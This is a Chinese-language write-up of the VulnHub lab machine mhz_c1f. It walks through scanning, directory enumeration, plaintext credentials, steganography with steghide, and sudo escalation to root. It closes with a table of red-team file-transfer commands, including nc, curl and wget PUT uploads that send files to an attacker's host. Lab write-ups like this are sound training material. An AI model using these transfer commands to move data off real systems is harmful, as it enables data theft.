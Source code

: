 ## mhz_c1f : Walkthrough

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.105` |
| Kali          | `192.168.1.112` |
| mhz_c1f       | `192.168.1.108` |

### 扫描端口和版本信息

`nmap -A 192.168.1.108`

![1](../src/vulnhub/mhz_c1f/1.png)

### 访问 Web 并确定 Web 应用

根据 Nmap 扫描结果可知，Web 应用程序运行的是 **Apache 2.4.29** 服务器

![2](../src/vulnhub/mhz_c1f/2.png)

经过 *whatweb* , *dirb* 工具扫描发现没有运行 CMS，并且也找不到其他文件。此外根据作者提示需要枚举路径和隐写

```
You will learn a little about enumeration/local enumeration , steganography.
```

看来在这一步要进行暴力枚举路径，那么我们使用参数 `-X` 来缩减范围。多次尝试发现存在 `notes.txt` 文本（`dirb http://192.168.1.108 -X .txt`）

![3](../src/vulnhub/mhz_c1f/3.png)

第一条暂时没什么头绪，第二条给出了两个文件名 `remb.txt`和 `remb2.txt`。访问第一个文件返回内容：`first_stage:flagitifyoucan1234`，判定这是一个账户和密码；访问第二个文件不存在

使用该账户密码通过 ssh 登录系统

![4](../src/vulnhub/mhz_c1f/4.png)

该文本并没有提示什么有用信息，不过在 `/home/mhz_c1f/Paintings`路径下存在 4 张图片文件。看到图片又结合作者提示立刻联想到这些图片中存在隐写信息

接下来的步骤很明显，将这些图片传到 Kali 下，使用 *steghide* 工具提取隐藏信息

虚拟机没有安装 Python 环境，不能使用常用的方法了，不过我们可以通过 *nc* 来传文件

![5](../src/vulnhub/mhz_c1f/5.png)

在 Kali 端执行下图中的命令

![6](../src/vulnhub/mhz_c1f/6.png)

使用 *steghide* 提取隐藏信息，得到一个账户名和密码：`mhz_c1f:1@ec1f`

![7](../src/vulnhub/mhz_c1f/7.png) 

ssh 不能登录，那么就在 *first_stage* 账户下切换到 *mhz_c1f* 账户

### 提权

*mhz_c1f* 具有 sudo 权限，切换到 *root* 账户即可

![9](../src/vulnhub/mhz_c1f/9.png)

![8](../src/vulnhub/mhz_c1f/8.png)

### 总结

红队中常使用到的 Linux 环境的文件传输技巧

| 工具           | 源主机(发送端)                                               | 宿主机(接收端 \| `192.168.1.112`)            |
| -------------- | ------------------------------------------------------------ | -------------------------------------------- |
| Python2 环境   | `python2 -m SimpleHTTPServer 8088`                           | 浏览器访问即可下载或者使用 *curl* 、*wget*   |
| Python3 环境   | `python3 -m http.server 8088`                                | 浏览器访问即可下载或者使用 *curl* 、*wget*   |
| PHP 5.4+ 环境  | `php -S 0.0.0.0:8088`                                        | 浏览器指定文件名下载或者使用 *curl* 、*wget* |
| Ruby 1.9+ 环境 | `ruby -run -e httpd . -p 8088`                               | 浏览器访问即可下载或者使用 *curl* 、*wget*   |
| *netcat* 工具  | `nc 192.168.1.112 8088 < file.txt`                           | `nc -lvp 8088 > file.txt`                    |
| *curl* 工具    | `curl --upload-file file.txt http://192.168.1.110:8088`      | 搭建支持 PUT 方法的 HTTP 服务器              |
| *wget* 工具    | `wget --method=PUT --post-file=file.txt http://192.168.1.112:8088` | 搭建支持 PUT 方法的 HTTP 服务器              |

